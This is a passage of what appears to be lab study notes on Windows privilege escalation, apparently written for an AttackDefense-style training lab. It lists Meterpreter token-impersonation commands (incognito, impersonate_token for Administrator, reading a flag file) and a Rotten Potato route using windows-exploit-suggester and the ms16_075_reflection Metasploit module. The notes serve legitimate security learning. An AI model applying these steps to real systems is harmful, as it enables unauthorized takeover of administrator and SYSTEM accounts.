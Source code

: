         ```powershell
        Meterpreter
        getuid
        load incognito
        list_tokens -u
        impersonate_token ATTACKDEFENSE\\Administrator 
        getuid
        cat C:\\Users\\Administrator\\Desktop\\flag.txt
        ```
        
    - Rotten Potato
        
        **Automated**
        
        `./windows-exploit-suggester.py --database <Database>.xlsx --systeminfo <Systeminfo>.txt`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2033.png)
        
        `use exploit/windows/local/ms16_075_reflection`
        
        `load incognito`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2034.png)
        
        `list_tokens -u`
        
        As `highlighted` in the following screenshot, this will list all available user tokens that
        we can impersonate to elevate our privileges. In this case, we are able to identify the
        `NT AUTHORITY/SYSTEM` access token with the delegate security level:
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2035.png)
        